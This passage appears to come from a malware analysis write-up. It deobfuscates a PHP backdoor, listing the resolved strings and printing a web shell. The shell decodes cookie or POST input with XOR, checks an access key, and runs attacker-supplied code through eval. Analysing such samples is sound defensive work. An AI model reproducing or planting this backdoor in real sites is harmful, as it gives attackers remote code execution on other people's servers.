  ----------------------------------------------------------------------------------------------------------------------------------------------------

As expected we can now see following:

-   "gb2407": An int (578) - Possibly a counter or build number? (It
    does not seem to be used, but could be retrieved with a successful
    payload)
-   \"f884b\" : Inner concat reference string for generating the ID in
    "x864b367c"
-   Multiple PHP function names.
-   References to \$\_POST & \$\_COOKIE.
-   \"x864b367c\": ID generated from "f884b"

Next step is to do some search/replace on all the string concatenations,
replacing them with the corresponding resolved value:

  ---------------------------------------------------------------------------------------------------------------------------------------------------
  global \$x864b367c;\
  function r6971a(\$e76477, \$qead07){\
  global \$rb22c05fb;\
  \$e112aa2d = \"\";\
  for (\$n28c=0; \$n28c\<\$rb22c05fb\[\'q46d1a5f1\'\](\$e76477);){\
  for (\$o70350cf=0; \$o70350cf\<\$rb22c05fb\[\'q46d1a5f1\'\](\$qead07) && \$n28c\<\$rb22c05fb\[\'q46d1a5f1\'\](\$e76477);\$o70350cf++, \$n28c++){\
   \$e112aa2d .= \$rb22c05fb\[\'ve58d5432\'\](\$rb22c05fb\[\'m9298\'\](\$e76477\[\$n28c\]) \^ \$rb22c05fb\[\'m9298\'\](\$qead07\[\$o70350cf\]));\
   }\
   }\
   return \$e112aa2d;\
  }\
  \
  function b6ddf34f(\$e76477, \$qead07){\
   global \$rb22c05fb;\
   global \$x864b367c;\
   return \$rb22c05fb\[\'ka7b4d65\'\](\$rb22c05fb\[\'ka7b4d65\'\](\$e76477, \$x864b367c), \$qead07);\
  }\
  \
  foreach (\$rb22c05fb\[\'la5c9338f\'\] as \$qead07=\>\$l0c59b){\
   \$e76477 = \$l0c59b;\
   \$k93f152 = \$qead07;\
  }\
  \
  if (!\$e76477){\
   foreach (\$rb22c05fb\[\'f2a1a8fff\'\] as \$qead07=\>\$l0c59b){\
   \$e76477 = \$l0c59b;\
   \$k93f152 = \$qead07;\
   }\
  }\
  \
  \$e76477 = @\$rb22c05fb\[\'pc4fb4\'\](\$rb22c05fb\[\'tdab3b\'\](\$rb22c05fb\[\'l432c104\'\](\$e76477), \$k93f152));\
  \
  if (isset(\$e76477\[\'ak\'\]) && \$x864b367c==\$e76477\[\'ak\'\]){\
   if (\$e76477\[\$rb22c05fb\[\'f884b\'\]\[43\]\] == \$rb22c05fb\[\'f884b\'\]\[22\]){\
   \$n28c = Array(\'pv\' =\> @\$rb22c05fb\[\'m28921c1\'\](),\'sv\' =\> \'1.0-1\',);\
   echo @\$rb22c05fb\[\'d0207a74\'\](\$n28c);\
   }\
   elseif (\$e76477\[\$rb22c05fb\[\'f884b\'\]\[43\]\] == \$rb22c05fb\[\'f884b\'\]\[78\]){\
   eval/\*v4c8\*/(\$e76477\[\$rb22c05fb\[\'f884b\'\]\[88\]\]);\
   }\
   exit();\
  }\
